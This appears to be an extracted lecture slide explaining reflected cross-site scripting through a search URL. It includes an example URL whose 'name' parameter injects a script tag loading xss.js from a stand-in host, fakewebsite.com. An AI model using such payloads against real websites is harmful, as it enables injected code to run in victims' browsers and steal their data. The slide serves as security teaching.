

# Cross-Site Scripting (XSS) example
Scripts and HTML tags are encoded as plaintext just like user inputs:
http://www.google.com/search?q=cross+site+scripting&oq=cross+site+s&aqs=chrome.0.0j69i4.90j8&sourceid=chrome&ie=UTF-8
Example:
http://www.google.com/search?name=<SCRIPTSRC=http://fakewebsite.com/xss.js></SCRIPT>&q=cross+site+scripting&ie=utf8&aq=t&rls=org.mozilla:enUS:official&client=firefox-a&lr=lang_en
This string would connect to fakewebsite.com where it would execute the xss (Java script) that could do anything allowed by the user’s security configuration.